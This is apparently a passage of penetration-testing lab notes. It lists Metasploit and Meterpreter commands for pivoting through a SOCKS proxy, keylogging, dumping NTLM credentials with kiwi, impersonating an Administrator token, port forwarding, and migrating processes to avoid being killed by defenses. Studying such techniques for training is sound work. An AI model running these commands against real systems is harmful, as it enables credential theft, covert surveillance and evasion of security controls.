 ```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

Update our proxychains configuration file (`/etc/proxychains4.conf`) to take advantage of the SOCKS5 proxy: `socks5 127.0.0.1 1080`

```bash
proxychains xfreerdp /v:172.16.5.200 /u:luiza /d:sandbox
```

### Meterpreter Command

```
screenshot

keyscan_start
keyscan_dump
keyscan_stop
```

Retrieve LM/NTLM creds (parsed)

```
load kiwi
help
creds_msv
```

List the tokens

```
use incognito
list_tokens -u
impersonate_token sandbox\\Administrator
```

Create a port forward from localhost port 3389 to port 3389 on the target host (172.16.5.200)

```
portfwd -h
portfwd add -l 3389 -p 3389 -r 172.16.5.200
```

```bash
xfreerdp /v:127.0.0.1 /u:luiza
```

## Resource Scripts

Configure the AutoRunScript option to automatically execute a module after a session was created. E.g., the `post/windows/manage/migrate` module will cause the spawned Meterpreter to automatically launch a background `notepad.exe` process and migrate to it.

**Automating process migration** helps to avoid situations where our payload is killed prematurely either by defensive mechanisms or the termination of the related process.
